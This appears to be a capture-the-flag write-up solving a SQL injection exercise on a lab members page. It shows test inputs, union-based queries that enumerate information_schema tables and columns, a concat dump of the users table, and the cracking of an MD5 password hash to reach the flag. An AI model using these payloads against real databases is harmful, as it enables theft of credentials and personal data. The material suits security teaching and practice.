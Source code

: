 # SQL_Injection_members

## Description

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

## Test_sql_injection

    # input:
    "'", "--", "1 or 1=1" ...
    
    # result:
    "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1"

## Get_data

    # input:
    "1 or 1=1"
    
    # result:
    ID: 1 or 1=1 
    First name: Barack Hussein
    Surname : Obama

    ID: 1 or 1=1 
    First name: Adolf
    Surname : Hitler

    ID: 1 or 1=1 
    First name: Joseph
    Surname : Staline

    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

## Analyze_data_and_try_to_find_information
    # Info we want to know:
    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

    # input: (1) to find current database
    1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database();

    # result: (1)
    ID: 1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database(); 
    First name: 
    Surname : users

    # input: (2) to find columns informations
    1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 

    # result: (2)
    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : user_id

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : first_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : last_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : town

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : country

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : planet

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : Commentaire

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : countersign

## Final_analysis
    # input: 
    1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

    # result:
    ID: 1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users 
    First name: 
    Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

## Get_the_flag
    5ff9d0165b4f92b14994e5c685cdce28: MD5 Hash -> crack hash: FortyTwo
    fortytwo -> SHA256: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Solutions